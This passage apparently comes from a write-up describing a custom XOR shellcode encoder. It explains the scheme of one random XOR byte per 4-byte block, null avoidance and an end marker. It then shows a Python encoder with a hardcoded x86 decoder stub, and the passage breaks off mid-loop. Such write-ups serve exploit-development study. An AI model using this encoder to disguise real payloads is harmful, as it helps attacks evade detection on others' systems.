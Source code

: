 To encode the shellcode, a Python script is used and reads the shellcode from the input file in `\xFF\xEE\xDD...` format. As explained earlier, a XOR byte is randomly chosen for each 4 bytes tuple. If any of the encoded bytes end up being XORed to \x00, another random XOR byte is chosen instead to avoid nulls being insert in the final shellcode.

A marker is added at the end of the shellcode so the length of the encoded shellcode doesn't need to be included in the decoder stub.

The code of the encoder is shown here:
--------------------------------------

```python
#!/usr/bin/python

import random
import socket
import struct
import sys

# Decoder stub
decoder_stub = "\xeb\x57\x31\xc0\x31\xdb\x31\xc9"
decoder_stub += "\x31\xd2\x5e\xbf\x90\x90\xaa\xaa"
decoder_stub += "\x83\xec\x7f\x83\xec\x7f\x83\xec"
decoder_stub += "\x7f\x83\xec\x7f\x8a\x5c\x16\x01"
decoder_stub += "\x8a\x7c\x16\x02\x8a\x4c\x16\x03"
decoder_stub += "\x8a\x6c\x16\x04\x32\x1c\x16\x32"
decoder_stub += "\x3c\x16\x32\x0c\x16\x32\x2c\x16"
decoder_stub += "\x88\x2c\x04\x88\x4c\x04\x01\x88"
decoder_stub += "\x7c\x04\x02\x88\x5c\x04\x03\x39"
decoder_stub += "\x7c\x16\x05\x74\x0a\x42\x42\x42"
decoder_stub += "\x42\x42\x83\xc0\x04\x75\xc5\xff"
decoder_stub += "\xe4\xe8\xa4\xff\xff\xff"

# Seed PRNG (don't use this for real crypto)
random.seed()

if len(sys.argv) < 2:
        print('Usage: {name} [shellcode_file]'.format(name = sys.argv[0]))
        exit(1)

shellcode_file = sys.argv[1]

# Read shellcode from file in '\xFF\xEE\xDD' format
with open(shellcode_file) as f:
        shellcode_original = bytearray.fromhex(f.read().strip().replace('\\x',''))

# If shellcode is not 4 bytes aligned, adding padding bytes at the end
if len(shellcode_original) % 4 != 0:
        padding = 4 - (len(shellcode_original) % 4)
else:
        padding = 0
if padding:
        print('[+] Shellcode not 4 bytes aligned, adding {} \\x90 bytes of padding...'.format(padding))
        for i in range(0, padding):
                shellcode_original.append(0x90)

shellcode_encoded = bytearray()

# Process 4 bytes at a time
for i in range(0, len(shellcode_original), 4):
        xor_byte_good = False
        while(xor_byte_good == False):
                # Generate random XOR byte
                r = random.randint(1,255)
```